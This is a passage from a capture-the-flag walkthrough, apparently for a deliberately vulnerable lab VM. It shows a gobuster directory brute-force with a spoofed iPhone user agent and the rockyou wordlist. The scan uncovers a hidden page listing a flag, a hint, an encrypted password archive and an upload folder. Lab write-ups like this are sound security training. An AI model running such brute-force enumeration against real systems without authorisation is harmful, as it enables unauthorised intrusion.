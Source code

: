 And I received the following response:

```
Well, you passed the dummy test
But Nick's secret door isn't that easy to open.
Gotta know the EXACT name of the .html to break into this fortress.
Good luck brainiac.
Lol
-Nick 
```

Ok, I could try brute-forcing now. 

```
# gobuster -a 'iPhone' -u http://172.16.146.141:8008/NickIzL33t/ -w /usr/share/wordlists/rockyou.txt -x .html

Gobuster v1.1                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://172.16.146.141:8008/NickIzL33t/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/rockyou.txt
[+] Status codes : 302,307,200,204,301
[+] User Agent   : iPhone
[+] Extensions   : .html
=====================================================
/?????? (Status: 200)
/??????.html (Status: 200)
/////// (Status: 200)
/fallon1.html (Status: 200)
/????? (Status: 200)
/?????.html (Status: 200)
```

I tried /fallon1.html and scored:

```
<html>
<title>W 0 W!</title>
Nice work.  Here are the goodies in Nick's personal super secret dropbox:
<p>
<ul>
<li><a href="hint.txt">A hint</a> - you'll need it
<li><a href="flagtres.txt">The third flag</a> - you're not hopeless after all
<li><a href="t0msp4ssw0rdz.zip">Big Tom's encrypted pw backups</a> - because that big tub of dumb can never remember them
</ul>
<!--Note: Still working on file upload capabilities in the P4TCH_4D4MS folder-->
</html>
```

So I got links to the hint, the third flag, and the encrypted backups. Also, a comment at the end suggested another folder called P4TCH_4D4MS with an upload function. 
